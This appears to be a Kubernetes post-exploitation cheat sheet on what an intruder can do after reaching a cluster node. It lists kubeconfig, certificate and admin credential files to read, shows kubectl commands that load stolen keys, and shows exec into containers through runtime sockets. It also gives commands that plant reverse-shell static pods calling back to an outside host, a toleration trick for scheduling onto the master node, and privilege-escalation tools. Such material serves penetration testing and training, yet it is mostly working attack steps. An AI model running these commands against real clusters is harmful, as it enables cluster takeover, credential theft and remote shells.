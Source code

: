### what can we do inside the node
0. **Master** node or **Worker** node? 
  
Since Kubernetes v1.20:
```bash 
kubectl get nodes -l 'node-role.kubernetes.io/control-plane'`
```
Before Kubernetes v1.20:
```bash
kubectl get nodes -l 'node-role.kubernetes.io/master'
```
To get workers we can use negation for above expressions (since Kubernetes v1.20):
```bash
kubectl get nodes -l '!node-role.kubernetes.io/control-plane'
```
Before Kubernetes v1.20:
```bash
kubectl get nodes -l '!node-role.kubernetes.io/master'
```
Another approach is to use command kubectl cluster-info which will print IP address of the control-plane:

Kubernetes control plane is running at **https://{ip-address-of-the-control-plane}:8443**

1. Full file system access: configs, keys, certs:
- `$HOME/.kube/config`
- `/etc/kubernetes/bootstrap-kubelet.conf`
- `/etc/kubernetes/manifests/etcd.yaml`
- `/etc/kubernetes/pki`

Use: 
- apply config for kubectl: 
```bash
kubectl –kubeconfig $HOME/.kube/config get po
```

- apply cert for kubectl: 
```bash
KUBECONFIG=<filename> kubectl config set-cluster default-cluster --server=https://<host_ip>:6443 --certificate-authority <path-to-kubernetes-ca> --embed-certs
```

- apply pem-key for kubectl: 
```bash
KUBECONFIG=<filename> kubectl config set-credentials <credential-name> --client-key <path-to-key>.pem --client-certificate <path-to-cert>.pem --embed-certs
```

- set current cluster context: 
```bash
KUBECONFIG=<filename> kubectl config set-context default-system --cluster default-cluster --user <credential-name>
```

- use cluster context:
```bash 
KUBECONFIG=<filename> kubectl config use-context default-system
```

2. Container runtime socket (conn to sock and exec)
- crictl (provides a CLI for CRI-compatible container runtimes. This allows the CRI runtime developers to debug their runtime without needing to set up Kubernetes components)
```bash
curl -sL https://github.com/kubernetes-sigs/critools/releases/download/v1.25.0/crictl-v1.25.0-linux-amd64.tar.gz | tar zxf -
```
- usage: `crictl exec -i -t example_pod bash`, `crictl ps` (get images), `crictl logs <image_id>` (get logs) ... 

crictl by default connects on Unix to:

- unix:///run/containerd/containerd.sock or
- unix:///run/crio/crio.sock or
- unix:///var/run/cri-dockerd.sock

or on Windows to:

- npipe:////./pipe/containerd-containerd or
- npipe:////./pipe/cri-dockerd

3. Using these configs, you can interact with Pod and other resources located on the Node to which you fled
```bash
kubectl –kubeconfig /etc/kubernetes/kubelet.conf get po -A
```

**Useful ways**:
- `/var/lib/kubelet/kubeconfig`
- `/var/lib/kubelet/kubelet.conf`
- `/var/lib/kubelet/config.yaml`
- `/var/lib/kubelet/kubeadm-flags.env`
- `/etc/kubernetes/kubelet-kubeconfig`
- `/etc/kubernetes/kubelet.conf`
- `/etc/kubernetes/admin.conf`
- `/etc/kubernetes/controller-manager.conf`
- `/etc/kubernetes/scheduler.conf`

4. We can create StaticPod (for example, try create pods with reverseshell from https://github.com/BishopFox/badPods)
```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./manifests/everything-allowed/pod/everything-allowed-revshell-pod.yaml >> /etc/kubernetes/manifests/everything-allowed-revshell-pod.yaml
HOST="10.0.0.1" PORT="3112" envsubst < ./manifests/priv-and-hostpid/pod/priv-and-hostpid-revshell-pod.yaml >> /etc/kubernetes/manifests/priv-and-hostpid-revshell-pod.yaml
HOST="10.0.0.1" PORT="3113" envsubst < ./manifests/priv/pod/priv-revshell-pod.yaml >> /etc/kubernetes/manifests/priv-revshell-pod.yaml
HOST="10.0.0.1" PORT="3114" envsubst < ./manifests/hostpath/pod/hostpath-revshell-pod.yaml >> /etc/kubernetes/manifests/hostpath-revshell-pod.yaml
HOST="10.0.0.1" PORT="3115" envsubst < ./manifests/hostpid/pod/hostpid-revshell-pod.yaml  >> /etc/kubernetes/manifests/hostpid-revshell-pod.yaml 
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/pod/hostnetwork-revshell-pod.yaml >> /etc/kubernetes/manifests/hostnetwork-revshell-pod.yaml
HOST="10.0.0.1" PORT="3117" envsubst < ./manifests/hostipc/pod/hostipc-revshell-pod.yaml >> /etc/kubernetes/manifests/hostipc-revshell-pod.yaml
HOST="10.0.0.1" PORT="3118" envsubst < ./manifests/nothing-allowed/pod/nothing-allowed-revshell-pod.yaml >> /etc/kubernetes/manifests/nothing-allowed-revshell-pod.yaml
```

5. Road to the Master Node
Most clusters cannot run containers on the Master Node
- the Master Node stores the Service Account, keys and certificates, thanks to which we can become a cluster-admin
Kubernetes has a Taints & Toleraitions mechanism that prevents running a Pod on the Master Node. **Bypass**:
```yaml
spec:
    tolerations:
    - key: ""
      operator: "Exists"
      effect: "NoSchedule"
```
6. Tools (in `$PROJECT_DIR/pentest-tools`)
- kube-hunter – a powerful tool for pentesters from Aqua Security
- kubescape – identifying cluster misconfigs, RBAC, image scan
- kdigger – tool for reconnaissance of the environment
- kubelectl – a custom client for communicating with kubelet
- peirates – multi-tool for pentesting a cluster, including from inside the Pod
- BOtB – pentest tool for escaping from a container
- Krew plugins (in `$PROJECT_DIR/pentest-tools/krew`) – access-matrix, fuzzy, kubesec-scan, node-shell, sudo, who-can

7. Privilege escalation (in `$PROJECT_DIR/lpe`)
• linPEAS – (in `./PEASS-ng`) script for raising privileges in Unix environments
• LinEnum
• LinuxSmartEnumeration
• Traitor – a tool for identifying potential vulnerabilities and misconfigurations, which may lead to privilege escalation